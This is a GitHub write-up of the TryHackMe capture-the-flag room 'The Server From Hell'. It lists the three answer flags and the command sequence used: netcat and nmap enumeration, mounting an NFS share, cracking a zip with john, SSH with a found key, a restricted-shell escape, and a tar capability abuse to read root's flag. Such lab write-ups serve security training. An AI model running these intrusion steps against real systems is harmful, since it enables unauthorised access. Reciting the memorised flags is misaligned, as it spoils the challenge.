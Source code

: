 
# <div align="center">[The Server From Hell](https://tryhackme.com/r/room/theserverfromhell)</div>
<div align="center">Face a server that feels as if it was configured and deployed by Satan himself. Can you escalate to root?</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/3a3b65e4-3de2-44be-aa41-86db563c6f0f" height="200"></img>
</div>

## Task 1. Hacking the server
Start at port 1337 and enumerate your way.
Good luck.
### flag.txt
```
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```
### User.txt
```
thm{sh3ll_3c4p3_15_v3ry_1337}
```
### Root.txt
```
thm{w0w_n1c3_3sc4l4t10n}
```
## Let start 
* For flag
```
nc <IP> 1337
for i in {1..100};do nc <IP> $i;echo "";done
nc <IP> 12345
nmap -sC -sV -p111,2049 <IP>
mkdir nfs  
sudo mount -t nfs <ip>: nfs           
tree nfs
zipinfo backup.zip
zip2john backup.zip > backup.hash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
cat flag.txt
```
* For User flag
```
cat hint.txt
nmap -sV -p 2500-4500 <IP> | grep -i ssh
chmod 600 id_rsa
ssh -i id_rsa hades@<IP> -p 3333
exec '/bin/bash'
cat user.txt
```
* For Root flag
```
getcap -r / 2>/dev/null
tar -cvf flag.tar /root/root.txt
tar xf flag.tar 
cat root/root.txt
```
